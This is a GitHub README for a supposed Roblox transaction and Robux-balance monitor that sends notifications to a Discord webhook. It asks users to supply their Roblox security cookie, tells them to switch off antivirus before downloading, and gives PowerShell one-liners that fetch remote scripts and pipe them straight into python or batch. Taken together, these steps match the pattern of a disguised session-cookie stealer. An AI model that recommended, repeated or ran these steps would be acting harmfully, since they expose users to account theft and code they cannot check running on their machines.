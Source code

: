 # Roblox Transaction Monitor
![image](https://github.com/user-attachments/assets/16669dc8-7a44-4c9d-8f60-48a9d46cdb08)

A GUI application to monitor Roblox transactions and Robux balance changes in real-time. Get Discord notifications when your Roblox economy data changes.

## Features

- [x] Real time monitoring of Roblox transactions
- [x] Robux balance tracking
- [x] Discord webhook integration for notifications
- [x] User friendly GUI interface
- [x] Customizable monitoring intervals
- [x] Detailed logging system

## Also just a Quick Fix

- [x] Turn Anti virus off
- [x] then download the app
- [x] after that turn the anti virus back on and you're done

## TODO
- [x] Create a Dropdown menu like past day month year total
- [ ] Create a Stable Application

## Configuration
The application requires the following configuration:

1. Roblox Security Cookie
2. Discord Webhook URL
3. Discord Emoji ID for Robux display
4. Discord Emoji Name
5. Check Interval (update what ever time you want to set to)
6. Total Checks (Transaction/Balance) Like (Day Month Year)

## Usage

Run the application by executing this command

Install Requirements packages
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/install.bat').Content | batch"
```
Python Stable Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/main.py').Content | python"
```
Python Dev Version
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/maindev.py').Content | python"
```
unInstall packages
```
powershell -Command "(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/MrAndiGamesDev/NEW-Roblox-Transaction-Balance-Monitor/main/uninstall.bat').Content | batch"
```

## License
This project is licensed under the Apache License - see the LICENSE file for details.